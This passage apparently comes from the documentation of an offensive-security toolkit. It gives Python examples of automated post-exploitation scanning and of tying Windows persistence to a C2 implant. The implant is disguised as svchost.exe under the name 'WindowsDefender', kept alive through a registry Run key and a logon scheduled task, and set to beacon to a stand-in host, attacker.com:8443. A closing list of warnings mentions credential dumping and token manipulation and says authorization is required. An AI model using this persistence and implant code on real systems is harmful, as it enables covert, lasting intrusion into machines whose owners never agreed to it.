 ### Workflow 3: Automated Post-Exploitation

```python
from persistence.automated_scanner import AutomatedScanner

# Run comprehensive automated scan
scanner = AutomatedScanner(aggressive=True)

# Execute full scan
results = scanner.run_full_scan()

# Display results
print(scanner.generate_report())

# Export for later analysis
scanner.export_results('posture_assessment.json')

# Follow recommendations
for rec in results['recommendations']:
    if rec['priority'] == 'CRITICAL':
        print(f"\n[!] CRITICAL: {rec['action']}")
        print(f"    {rec['details']}")
```

## Integration with C2 Framework

Integrate persistence with Phase 1 C2 framework:

```python
from persistence.windows_persist import WindowsPersistence
from c2.implant.basic_implant import Implant

# Deploy implant with persistence
implant_path = 'C:\\Windows\\Temp\\svchost.exe'

# Establish persistence
persist = WindowsPersistence(implant_path, name='WindowsDefender')
persist.registry_run_key('HKCU_Run')
persist.scheduled_task(trigger='ONLOGON')

# Start implant
implant = Implant(c2_url='http://attacker.com:8443')
implant.start()

# Implant now persists across reboots
```

## Security Considerations

**CRITICAL WARNINGS:**

1. **Authorization Required**: Only use on systems you own or have explicit written permission to test
2. **Credential Dumping**: Extremely invasive and will trigger security alerts
3. **Token Manipulation**: Requires administrative privileges and may crash processes
4. **Persistence**: Creates artifacts that forensic analysis will detect
5. **Legal Implications**: Unauthorized use is illegal in most jurisdictions
